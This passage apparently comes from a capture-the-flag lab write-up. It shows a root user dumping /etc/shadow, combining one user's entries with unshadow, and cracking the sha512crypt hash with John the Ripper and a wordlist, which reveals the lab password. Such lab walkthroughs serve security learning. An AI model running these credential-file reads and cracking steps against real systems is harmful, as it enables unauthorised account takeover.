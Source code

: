 ### Shadow Hash -> Webmail Login

As `root`, I could read the `/etc/shadow` file:

```
root@webserver:/# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
```

To crack this, I used `unshadow`:

```
$ cat shadw_hash
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::

$ cat passwd_user
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash

$ unshadow passwd_user shadw_hash > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (drwilliams)     
1g 0:00:00:52 DONE (2023-11-19 03:31) 0.01906g/s 4084p/s 4084c/s 4084C/s raycharles..pucci
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
